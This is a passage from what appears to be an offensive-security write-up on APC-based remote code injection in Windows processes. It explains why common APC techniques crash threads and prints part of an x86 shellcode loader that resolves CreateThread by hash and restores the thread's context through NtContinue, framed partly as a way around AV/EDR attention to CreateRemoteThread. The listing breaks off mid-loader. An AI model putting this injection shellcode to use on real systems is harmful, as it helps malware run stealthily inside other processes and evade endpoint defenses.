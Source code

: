 A core component of remote code injection is the means in which the code runs. Allocating memory and copying code into a remote process is largely the same across many injection techniques, but it’s at the point of execution where things generally vary. Remote threads, APCs, thread contexts and window messages all have their own quirks that manifest in a variety of ways.

In particular, APCs are a common alternative to CreateRemoteThread (CRT), largely because AV/EDR attention to CRT. While it is a popular strategy, we’ve found that many frameworks and tools implement it poorly. In its most common incarnation, tools will hijack an existing thread, spam all threads, or create a suspended thread and queue an APC object. This works but ultimately crashes the thread (or threads). This is largely due to a loss of the EDI register and a context pointer, allocated by ntdll!KiUserApcDispatcher. The enSilo team ran into this during their [AtomBombing](https://github.com/BreakingMalwareResearch/atom-bombing) research and added a [ZwContinue call to their shellcode](https://github.com/BreakingMalwareResearch/atom-bombing/blob/master/AtomBombingShellcode/main.c), which allows context to be restored and previous execution to resume.

In light of these difficulties, we needed shellcode capable of handling APC injection while maintaining the integrity of the original thread, as we generally don’t want to create a suspended one (why CRT if you don’t have to?). This is supported by the --apc flag, which is a separate implementation of our shellcode with APC support and continuation built in. Here is the relevant loader:

```
segment .text
        call geteip
geteip:
        pop ebx

        ; check if WOW64Reserved is null
        mov eax, [fs:0xc0]
        cmp eax, 0
        jne dummy

        ; set EDI for return context under x86
        mov edi, esp
        add edi, 0xc
        mov edi, [edi]

dummy:
        ; setup dummy stack if necessary
        mov eax, [fs:0x18]
        cmp dword [eax+0x1a8], 0
        jne continue
        lea esi, [CONTEXT-geteip+ebx]
        mov dword [eax+0x1a8], esi

continue:
        push KERNEL32_CREATETHREAD_HASH
        push KERNEL32_HASH
        call GetFunctionAddress
        mov esi, ebx
        add esi, execunet
        sub esi, 5
        xor ecx, ecx
        push ecx
        push ecx
        push ebx
        push esi
        push ecx
        push ecx
        call eax

        ; restore PCONTEXT and NtContinue outta here
        push NTDLL_NTCONTINUE_HASH
        push NTDLL_HASH
        call GetFunctionAddress
        push 1
```